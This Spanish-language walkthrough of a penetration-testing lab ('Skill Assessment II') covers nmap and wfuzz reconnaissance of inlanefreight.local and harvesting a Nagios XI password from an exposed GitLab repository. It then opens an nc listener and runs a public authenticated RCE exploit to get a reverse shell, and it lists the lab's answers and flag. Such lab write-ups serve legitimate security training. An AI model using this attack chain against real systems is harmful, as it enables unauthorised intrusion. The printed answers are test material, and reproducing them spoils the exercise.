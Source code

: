 # Laboratorio: Skill Assessment II 🐱

1. Agregamos el dominio y la dirección IP al archivo **`/etc/hosts`**
---

2. Usamos **`nmap`** para escanear puertos abiertos
* `nmap -p- -sS -Pn -n [IP] -oG ports`

<p align="center">
    <img src="./assets/Skill-Assessment-II/01-Ports.PNG">
</p>

---

3. Ahora hacemos un escaneo para conocer las versiones y los servicios que se ejecutan en todos los puertos
* `-nmap -sCV -p[Puertos] [IP] -oN versions`

---

4. Como tenemos el **subdominio** `gitlab.inlanefreight.local` podemos intuir que el dominio principal es **`inlanefreight.local`**, así que también lo añadiremos al archivo **`/etc/hosts`**.

* **`/etc/hosts`**
```
<SNIP>
[IP]   gitlab.inlanefreight.local inlanefreight.local
<SNIP>
```
---
5. Ahora hacemos **`fuzzing de subdominios`** con `wfuzz`
* `wfuzz -c -t 100 --hc=404 --hh=46166 -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt  -H "Host: FUZZ.inlanefreight.local" http://inlanefreight.local/`

**Output**
```
000000018:   200        1014 L   2296 W     50115 Ch    "blog"
```

* Añadimos el subdominio recién descubierto al archivo **`/etc/hosts`**
* Este **subdominio** es el que alberga a **`Wordpress`** 

**Respuesta 1:** `http://blog.inlanefreight.local`

---

6. Ahora, vamos a subdominio de `gitlab` y ver si existen algunos repositorios expuestos
* **URL:** `http://gitlab.inlanefreight.local:8180/explore`

<p align="center">
    <img src="./assets/Skill-Assessment-II/02-Repo.PNG">
</p>

**Respuesta 2:** `Virtualhost`

---

7. En el **README.md** de este **repositorio** vemos el nombre de otro subdominio

<p align="center">
    <img src="./assets/Skill-Assessment-II/03-Third.PNG">
</p>

**Respuesta 3:** `monitoring.inlanefreight.local`

---

8. Si visitamos el tercer subdominio veremos que se ejecuta la siguiente aplicación

<p align="center">
    <img src="./assets/Skill-Assessment-II/04-Nagios.PNG">
</p>

**Respuesta 4:** `Nagios`

---

9. Después de explorar todos los dominios no llegamos a encontrar credenciales válidas para el panel de **`Nagios XI`**, sin embargo, tengamos en cuenta **`GitLab`**, aquí nosotros podemos crear una cuenta con el dominio `[Username]@inlanefreight.local` y en el mejor de los casos ver repositorios que antes no podíamos.

* Primero crearemos una cuenta en **GitLab**
    * **URL:** `http://gitlab.inlanefreight.local:8180/users/sign_up`
  
<p align="center">
    <img src="./assets/Skill-Assessment-II/05-GitLab.PNG">
</p>

* Ahora accedemos y nos vamos a la sección de `Members -> Administrator`

<p align="center">
    <img src="./assets/Skill-Assessment-II/06-Repos.PNG">
</p>

* Nos fijamos que vemos un **repositorio más** y si vemos el archivo **`INSTALL`** veremos credenciales válidas en **`Nagios XI`**

* **INSTALL**
```sql
<SNIP>
postgres=# CREATE USER nagiosadmin WITH PASSWORD 'oilaKglm7M09@CPL&^lC';
<SNIP>
```

**Respuesta 5:** `oilaKglm7M09@CPL&^lC`

---

10. Ahora podemos ver la versión de **`Nagios XI`**

<p align="center">
    <img src="./assets/Skill-Assessment-II/07-Version.PNG">
</p>

---

11. Al buscar vulenrabilidades asociadas a esa versión de **Nagios XI** vemos el siguiente exploit
```
Nagios XI 5.7.X - Remote Code Execution RCE (Authenticated)        |     php/webapps/49422.py
```
---
12. Nos ponemos en escucha con **nc** previamente: **`nc -lvnp [Port]`**

---

13. Ejecutamos el **exploit**
* `python3 nagios_rce.py http://monitoring.inlanefreight.local nagiosadmin 'oilaKglm7M09@CPL&^lC' [IP tun0] [Port]`

---

14. Ahora ya tenemos un **shell** y leemos la flag (Está en el directorio actual)

```
www-data@skills2:/usr/local/nagiosxi/html/admin$ cat f5088a862528cbb16b4e253f1809882c_flag.txt
afe377683dce373ec2bf7eaf1e0107eb
```

**Respuesta 5:** `afe377683dce373ec2bf7eaf1e0107eb`